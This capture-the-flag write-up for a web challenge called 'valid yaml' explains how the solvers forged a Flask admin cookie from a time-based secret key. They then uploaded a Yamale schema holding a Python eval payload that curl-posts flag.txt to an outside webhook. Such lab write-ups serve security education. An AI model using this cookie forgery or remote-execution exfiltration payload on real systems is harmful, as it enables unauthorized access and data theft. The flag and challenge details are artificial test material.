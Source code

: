 # Web: valid yaml
solvers: [L3d](https://github.com/imL3d), [ProfessorZak](https://github.com//ProfessorZak)  
writeup-writer: [L3d](https://github.com/imL3d)  

**Description:**
> Yet Another Markup Language, YAML, YAML Ain't Markup Language, Yamale
> https://thecybercoopctf-c608d319bd29-valid-yaml-0.chals.io

**files (copy):** [src.zip](files/src.zip)  
**screenshot:** [homepage](images/validyaml.png)  

In this challenge we receive a site and it's source that allows us to validate our yaml input to a preestablished schema. We need to exploit this site and get user access to it.

## Solution❄️
The source code for this website in python via flask, using the Yamale library in order to validate the yaml input. The first things that pops to mind the the [PyYaml Deserialization](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization) that can allow us to get and RCE to the host machine? Could it be that the library used here have the same issue?  
Upon further examination, we find out that indeed `Yamale` runs on `PyYaml` and have the same issue, especially in the version that is used in the site - take a look at this [github issue + POC](https://github.com/23andMe/Yamale/issues/167).  
Great! we can just input this as the input... But wait. The exploit requires us to have influence on the schema and not just the input, and that is taken from the SQL database that we yet have control over:
```python
schema = Schemas.query.filter_by(id=schema_id).first_or_404() # If we can add our own schema... bingo!
schema = yamale.make_schema(content=schema.content) 
data = yamale.make_data(content=content)
```
So we need to get admin access. When digging further into the server code we see that we receive the formula for the [SECRET_KEY](https://flask.palletsprojects.com/en/2.3.x/config/#SECRET_KEY), which is pretty simple:
 ```python
SECRET_KEY = hashlib.md5(datetime.datetime.utcnow().strftime("%d/%m/%Y %H:%M").encode()).hexdigest()
```
This can allow us to bake our own `admin cookies`👨‍🍳, which in turn will allow us to upload our own schema, that can include the Python Deserialization payload!  
The code to generate the admin cookies (this needs to run on the same minute that the server deployed. If we don't know such time, we can just brute force for it):  
```python
""" Code to generate the admin cookies in the same way as the server """

from flask import Flask, session
from flask.sessions import SecureCookieSessionInterface
import datetime
import hashlib

SECRET_KEY = hashlib.md5(
        datetime.datetime.utcnow().strftime("%d/%m/%Y %H:%M").encode()
    ).hexdigest()

app = Flask("example")
app.secret_key = SECRET_KEY
session_serializer = SecureCookieSessionInterface().get_signing_serializer(app)
    
@app.route("/")
def test():
    session["id"] = 1 # This is the ID of the user (taken from the server source code)
    session_cookie = session_serializer.dumps(dict(session))
    return SECRET_KEY

if __name__ == "__main__":
    app.run()
```
After logging in as the admin, it's just as simple as uploading a new schema via the convenient page created for us by the site. The schema uploaded:  
```yaml
name: str([x.__init__.__globals__["sys"].modules["os"].system("curl -X POST --data-binary @flag.txt https://webhook.site/uniqueid") for x in ''.__class__.__base__.__subclasses__() if "_ModuleLock" == x.__name__])
age: int(max=200)
height: num()
awesome: bool()
```
And we get the flag: `flag{not_even_apache_can_stop_the_mighty_eval}`